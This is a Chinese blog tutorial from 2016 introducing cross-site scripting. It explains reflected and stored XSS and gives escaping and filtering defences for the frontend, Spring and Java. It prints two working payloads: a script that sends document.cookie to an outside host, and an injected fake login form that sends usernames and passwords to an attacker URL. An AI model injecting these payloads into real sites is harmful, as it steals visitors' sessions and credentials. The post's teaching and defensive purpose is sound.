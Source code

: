 title: WEB安全初探之XSS
tags:
  - XSS
categories:
  - 信息安全
date: 2016-03-09 15:48:00
---

XSS 全称(Cross Site Scripting) 跨站脚本攻击，是Web程序中最常见的漏洞。指攻击者在网页中嵌入客户端脚本(例如JavaScript), 当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击者的目的。比如获取用户的Cookie，导航到恶意网站,携带木马等。

## 0x01 XSS攻击的分类
根据XSS脚本注入方式的不同，我们可以对XSS攻击进行简单的分类。其中，最常见的就数反射型XSS和存储型XSS了。

### 1. 反射型XSS
反射型XSS，又称非持久型XSS。之所以称为反射型XSS，则是因为这种攻击方式的注入代码是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的。而称为非持久型XSS，则是因为这种攻击方式具有一次性。
攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接时，注入脚本被传输到目标服务器上，然后服务器将注入脚本“反射”到受害者的浏览器上，从而在该浏览器上执行了这段脚本。

### 2. 存储型XSS
存储型XSS，又称持久型XSS，他和反射型XSS最大的不同就是，攻击脚本将被永久地存放在目标服务器的数据库和文件中。这种攻击多见于论坛，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入到帖子的内容之中。随着帖子被论坛服务器存储下来，恶意脚本也永久地被存放在论坛服务器的后端存储器中。当其它用户浏览这个被注入了恶意脚本的帖子的时候，恶意脚本则会在他们的浏览器中得到执行，从而受到了攻击。


## 0x02 XSS攻击的手段及其危害

### 1. 窃取Cookie
具体实现方法：
先构造语句`<script>window.open('http://dlgyi.rrvv.net/cookie.asp?msg='+document.cookie)</script>`
这句话意思是打开一个新的窗口，访问http://dlgyi.rrvv.net/cookie.asp这个网址，并且通过msg传递一个变量，这里的变量就是我们要收集的cookie了。

### 2. 引导钓鱼
``` html
<script>
function hack()
{
                   location.replace(“http://www.attackpage.com/record.asp?username=“
+document.forms[0].user.value + “password=” + document.forms[0].pass.value);
}
</script>
<form>
<br><br><HR><H3>这个功能需要登录:</H3 >
<br><br>请输入用户名：<br>
<input type=”text” id=”user”name=”user”>
<br>请输入密码：<br>
<input type=”password” name =“pass”>
<br><input type=”submit”name=”login” value=”登录”onclick=”hack()”>
</form><br><br><HR>
```
注入上面的代码后，则会在原来的页面上，插入一段表单，要求用户输入自己的用户名和密码，而当用户点击“登录”按钮后，则会执行hack()函数，将用户的输入发送到攻击者指定的网站上去。这样，攻击者就成功窃取了该用户的账号信息。


## 0x03 XSS的预防

### 1. 前端过滤XSS
``` javascript
function xssCheck(str,reg){
    return str ? str.replace(reg || /[&<">'](?:(amp|lt|quot|gt|#39|nbsp|#\d+);)?/g, function (a, b) {
        if(b){
            return a;
        }else{
            return {
                '<':'&lt;',
                '&':'&amp;',
                '"':'&quot;',
                '>':'&gt;',
                "'":'&#39;',
            }[a]
        }
    }) : '';
}
```

### 2. 后端预防

#### spring提供的方法
``` xml
<context-param>
   <param-name>defaultHtmlEscape</param-name>
   <param-value>true</param-value>
</context-param>

Forms加上：<spring:htmlEscape defaultHtmlEscape="true" />
```

#### 手动escape
首先添加一个jar包：commons-lang-2.5.jar ，然后在后台调用这些函数：StringEscapeUtils.escapeHtml(string); StringEscapeUtils.escapeJavaScript(string); StringEscapeUtils.escapeSql(string);

#### 后台加Filter
``` java
private String cleanXSS(String value) {
    //You'll need to remove the spaces from the html entities below
    value = value.replaceAll("<", "& lt;").replaceAll(">", "& gt;");
    value = value.replaceAll("\\(", "& #40;").replaceAll("\\)", "& #41;");
    value = value.replaceAll("'", "& #39;");
    value = value.replaceAll("eval\\((.*)\\)", "");
    value = value.replaceAll("[\\\"\\\'][\\s]*javascript:(.*)[\\\"\\\']", "\"\"");
    value = value.replaceAll("script", "");
    return value;
}
```


## 0x04 一款XSS漏洞检测爬虫 - XSScrapy
``` bash
./xsscrapy.py -u http://example.com
./xsscrapy.py -u http://example.com/login_page -l loginname
```


## 0x05 XSS练习
http://vulnweb.janusec.com/index-xss.php


## 0x06 推荐站点
- [WooYun知识库](http://drops.wooyun.org/)
- [FreeBuf黑客与极客](http://www.freebuf.com/)
- [SecWiki](http://www.sec-wiki.com/index.php)


## 0x07 参考文档
- [XSS的原理分析与解剖](http://www.freebuf.com/articles/web/40520.html)
- [XSS的原理分析与解剖（第二篇）](http://www.freebuf.com/articles/web/42727.html)
- [前端防御XSS](http://drops.wooyun.org/web/13009)
- [Spring MVC防御CSRF、XSS和SQL注入攻击](http://www.cnblogs.com/Mainz/archive/2012/11/01/2749874.html)
- [快速、直接的XSS漏洞检测爬虫 – XSScrapy](http://itindex.net/detail/51089-xss-xsscrapy)
- [xsscrapy](https://github.com/DanMcInerney/xsscrapy)